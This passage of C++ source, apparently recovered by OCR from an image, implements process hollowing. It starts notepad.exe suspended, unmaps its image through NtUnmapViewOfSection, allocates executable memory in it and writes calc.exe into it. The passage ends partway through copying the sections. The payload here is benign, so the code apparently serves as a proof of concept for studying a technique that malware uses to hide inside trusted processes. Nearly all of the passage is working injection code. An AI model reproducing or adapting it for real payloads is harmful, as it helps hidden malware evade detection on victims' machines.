 ```cpp
	);

pfnNtUnmapViewOfSection gNtUnmapViewOfSection;

void _tmain(int argc, TCHAR* argv[]) {

	// create destination process - this is the process to be hollowed out
	LPSTARTUPINFOA si = new STARTUPINFOA();
	LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
	PROCESS_BASIC_INFORMATION* pbi = new PROCESS_BASIC_INFORMATION();

	CreateProcessA((LPSTR)"c:\\windows\\syswow64\\notepad.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);

	// read source file - this is the file that will be executed inside the hollowed process
	HANDLE sourceFile = CreateFileA((LPCSTR)"c:\\windows\\syswow64\\calc.exe", GENERIC_READ, NULL, NULL, OPEN_ALWAYS, NULL, NULL);
	DWORD64 sourceFileSize = GetFileSize(sourceFile, NULL);
	LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sourceFileSize);
	ReadFile(sourceFile, sourceFileBytesBuffer, sourceFileSize, NULL, NULL);

	// utilise runtime dynamic linking to obtain a function pointer to NtQueryInformationProcess
	HMODULE hNtDll = LoadLibrary(TEXT("ntdll.dll"));
	gNtQueryInformationProcess = (pfnNtQueryInformationProcess)GetProcAddress(hNtDll,
		"NtQueryInformationProcess");

	HANDLE destProcess = pi->hProcess;
	// get destination imageBase offset address from the PEB by calling NtQueryInformationProcess
	gNtQueryInformationProcess(destProcess, ProcessBasicInformation, pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);
	DWORD_PTR pebImageBaseOffset = (DWORD_PTR)pbi->PebBaseAddress + 8;

	// get destination imageBaseAddress
	LPVOID destImageBase = 0;
	ReadProcessMemory(destProcess, (LPCVOID)pebImageBaseOffset, &destImageBase, 4, NULL);

	// unmap the target process by calling NtUnmapViewOfSection
	gNtUnmapViewOfSection = (pfnNtUnmapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection"));
	gNtUnmapViewOfSection(destProcess, destImageBase);

	// obtain image size of the source image
	PIMAGE_DOS_HEADER sourceImageDosHeaders = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
	PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew);
	DWORD sourceImageSize = sourceImageNTHeaders->OptionalHeader.SizeOfImage;

	// allocate memory in the target process
	VirtualAllocEx(destProcess, destImageBase, sourceImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	// patch the image base of the source image
	//save the source image base before patching for calculating delta in later sections
	DWORD sourceImageBase = (DWORD)sourceImageNTHeaders->OptionalHeader.ImageBase;
	sourceImageNTHeaders->OptionalHeader.ImageBase = (DWORD)destImageBase;
	WriteProcessMemory(destProcess, destImageBase, sourceFileBytesBuffer, sourceImageNTHeaders->OptionalHeader.SizeOfHeaders, NULL);

	// copy each section from the source to the destination
	PIMAGE_SECTION_HEADER sourceImageSection = (PIMAGE_SECTION_HEADER)((DWORD)sourceImageNTHeaders + sizeof(IMAGE_NT_HEADERS32));
	DWORD sectionsCount = sourceImageNTHeaders->FileHeader.NumberOfSections;
	DWORD relocationAddress;
```